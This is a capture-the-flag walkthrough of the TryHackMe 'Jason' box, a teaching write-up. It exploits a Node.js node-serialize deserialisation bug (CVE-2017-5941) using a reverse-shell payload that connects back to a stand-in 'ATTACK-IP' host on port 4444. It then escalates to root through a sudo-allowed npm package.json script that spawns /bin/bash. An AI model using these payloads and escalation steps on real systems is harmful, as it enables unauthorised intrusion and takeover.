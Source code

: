 # Try Hack Me - Jason

**Categories:**  Security, nodejs, deserialisation, web  
**Difficulty:**  Easy

Commands used in this guide use the exported variable $IP (`export IP=10.10.232.30`) in place of the target machine's IP address.

## 1: Enumeration - nmap

Having launched the machine, we perform a basic TCP port scan with nmap (`sudo nmap $IP`) followed by a version enumeration scan on the 2 discovered ports (22 and 80) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ sudo nmap -p22,80 -sV $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-08 16:46 EDT
Nmap scan report for 10.10.232.30
Host is up (0.100s latency

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=10/8%Time=6160AE32%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,E4B,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/html\r\nDat
...snip...
```

Google and searchsploit return no relevant vulnerabilities for the discovered SSH version. Navigating to the application on 80 shows reveals a placeholder screen with "built by nodejs" and an email sign-up input field :

```html
...snip...
<h4>Built with Nodejs</h4>
<br>
<h3>Coming soon! Please sign up to our newsletter to receive updates.</h3>
<br>
<h2>Email address:</h2>
<input type="text" id="fname" name="fname"><br><br>
<a class="button-line" id="signup">Submit</a>
...snip...
```

Usually we would continue with a gobuster scan to provide more information on the web application, but further exploration of the email sign-up functionality already gives us a possible exploitation opportunity - we can always come back to gobuster if we need it.

## 2: Web application - curl, cookies

Investigating the request made by the email sign-up field shows that it makes a POST request with the user input as a query param, and returns a base64 encoded cookie : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ curl -X POST $IP/?email=TESTER -I
HTTP/1.1 200 OK
Set-Cookie: session=eyJlbWFpbCI6IlRFU1RFUiJ9; Max-Age=900000; HttpOnly, Secure
Content-Type: text/html
Date: Fri, 08 Oct 2021 20:53:41 GMT
Connection: keep-alive
Transfer-Encoding: chunked
```

Decoding the cookie shows that it contains a JSON object with our user input assigned to the key "email" :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ echo "eyJlbWFpbCI6IlRFU1RFUiJ9" | base64 -d
{"email":"TESTER"}
```

Making the same request in the browser also triggers a page reload, after which the user provided input is displayed on the page : 

```html
    <h3>We'll keep you updated at: TESTER</h3>
```

So what's happening here? The code that handles the request is available in the page source, but there are 4 basic steps :

1. A POST request sends the user's input to the server in the `?email=` query param
2. The server responds to the POST request with a SetCookie header with a base64 encoded JSON object containing the user input
3. The page is reloaded (see `window.location.reload` in the source), making a GET request that sends the new cookie back to the server
4. The server responds to the GET request, adding the value received in the cookie to the "We'll keep you updated at: VALUE"

So the most obvious potential vulnerability is XSS, but this isn't going to help us in the context of a CTF (and doesn't actually work - we'll see why later). But we now have enough information to suspect that something might be going on here with nodejs's handling of user provided JSON input. A google search for "nodejs json vulnerabilities" throws up an article on a [JSON deserialisation bug in the npm package "node-seralize"](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

## 3: Foothold - CVE-2017-5941

Understanding the vulnerability requires some prior knowledge of node and javascript.

Firstly, the "node-serialize" package allows for javascript objects to be [serialised](https://en.wikipedia.org/wiki/Serialization) - essentially, to be turned into strings for inclusion in databases, HTTP requests, etc. The package also provides a method "unserialize" which performs the reverse operation - transforming serialized strings into javascript objects. This and similar packages have mostly been replaced by the JSON.stringify and JSON.parse built-ins in modern javascript.

Secondly, JavaScript includes [Immediately Invoked Function Expressions](https://en.wikipedia.org/wiki/Immediately_invoked_function_expression)(IIFE) - these are just functions that are executed at the same time as they are defined :

```console
┌──(kali㉿kali)-[~]
└─$ node
Welcome to Node.js v16.11.0.
Type ".help" for more information.
> ( function(){ console.log('Immediately invoked!'); })()
Immediately invoked!
```

You might already be able to see where this is going - when objects passed to node-serialize's "unserialize()" method include an IIFE, these functions are executed during deserialisation. The article provides an example of RCE exploiting this vulnerability, and we'll use this same example to get "unserialize()" to execute a reverse shell.

Just like the article, we generate a node reverse shell using [nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ ./nodejsshell.py ATTACK-IP 4444
[+] LHOST = ATTACK-IP
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116...snip...
```

Now we might think that we can wrap this reverse shell in an IIFE and copy it to the web app's email field. This doesn't work, and the article explains why - the unserialize() method only executes IIFEs if it recognises them as functions serialized by node-serialize's "serialize()" method (keep up now). So at this point we could start a new node project, import node-serialize, pass our reverse shell through serialize, etc. etc., or we could just read the article and steal the "\_\$$ND\_FUNC\$$\_" flag used by serialize() to indicate a function. After adding this flag to our IIFE'd reverse shell, our exploit script should look something like this :

```js
_$$ND_FUNC$$_function(){eval(String.fromCharCode(...snip...))}()
```

If the application works as expected, we shouldn't have to encode this for inclusion in the cookie - we can just paste it as regular input into the email field and let the application encode it, set it as a cookie, and send it back to the server with `window.location.reload`. We start a listener on the attack machine, submit the exploit through the email field, and the reverse shell successfully connects :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.232.30] 50822
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
```

The user flag is at `/home/dylan/user.txt`.

## 4. Privesc dylan -> root - npm GTFObin

Running `sudo -l` as the dylan user shows that they can run `/usr/bin/npm` as all users without a password : 

```console
sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

If you're familiar with nmp, you will know that it can execute commands and scripts defined in a `package.json` file with `nmp run`. If you're not familiar with npm, [GTFObins](https://gtfobins.github.io/gtfobins/npm/) will tell you the same thing. We start by creating a simple `package.json` file that defines a command "start" that executes "/bin/bash" (these commands are run on the target as dylan - our current shell isn't the best but it doesn't matter here) :

```console
echo '{"scripts": {"start": "/bin/bash"}}' > ./package.json
```

and we can then execute the start command using `npm run` as root :

```console
sudo npm run start

> @ start /home/dylan
> /bin/bash

id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`. 

I mentioned earlier that XSS attacks on the apparently vulnerable email field don't work - but why not? Take a look at `/opt/webapp/server.js`, where values received from the cookie are passed through an XSS filter :

```js
var email = xssFilters.inHTMLData(obj.email).substring(0,20);
$('h3').replaceWith(`<h3>We'll keep you updated at: ${email}</h3>`);
```

Dylan's not so bad at security after all!

